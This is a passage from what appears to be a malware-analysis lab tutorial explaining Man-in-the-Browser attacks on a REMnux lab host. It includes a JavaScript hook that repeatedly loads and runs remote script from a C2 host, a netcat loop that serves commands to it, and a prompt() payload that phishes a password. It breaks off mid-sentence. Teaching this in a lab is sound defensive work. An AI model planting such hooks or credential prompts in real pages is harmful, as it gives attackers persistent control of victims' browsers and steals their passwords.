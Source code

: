 
### Man in the Browser

A Man in the Browser (MitB) attack is when injected JavaScript establishes a communication channel and obtains persistence in the browser.  This allows an attacker to eavesdrop on browser operations, hijack GET and POST requests, and relay traffic intended for a legitimate server back to the attacker where requests and responses can be modified.  Additionally, the attacker can read and modify content within the current page without victim intervention while hidden from the user and the server. 

The following code hooks the browser by making a request every 5 seconds and executing any JavaScript commands it receives:

```javascript
setInterval(function hook(){d=document;z=d.createElement("script");z.src="//remnux";d.body.appendChild(z);},5000);
```

To configure REMnux to receive the JavaScript shell, type the following:

```bash
while :;do printf "$ ";read c;echo $c | nc -lp 80 > /dev/null;done
```

With REMux now listening on port 80, switch to the **Network** tab in DevTools and click the **Hook Browser** button.

You should see the browser making some failed requests to the remnux host.  

![](images/JavaScript%20and%20Browser-based%20Malware/image017.png)<br><br>

This is because it is not getting a response (a command) from the C2 server.

Now type some JavaScript code into the REMnux command prompt such as:

```javascript
alert(1)
```

When the script retrieves the command, you should see the alert window pop up on the screen:

![](images/JavaScript%20and%20Browser-based%20Malware/image018.png)<br><br>

Now any JavaScript code you enter will be executed in the victim browser.


Try launching a social engineering attack by typing the following code in the REMnux console:

```javascript
var secret = prompt("Please enter your password: ")
```

The user is prompted for their password:

![](images/JavaScript%20and%20Browser-based%20Malware/image019.png)<br><br>

When entered, the password is available via the DOM in the variable `secret`:

![](images/JavaScript%20and%20Browser-based%20Malware/image020.png)<br><br>

With the ability to manipulate the DOM, the attacker has a number of options:
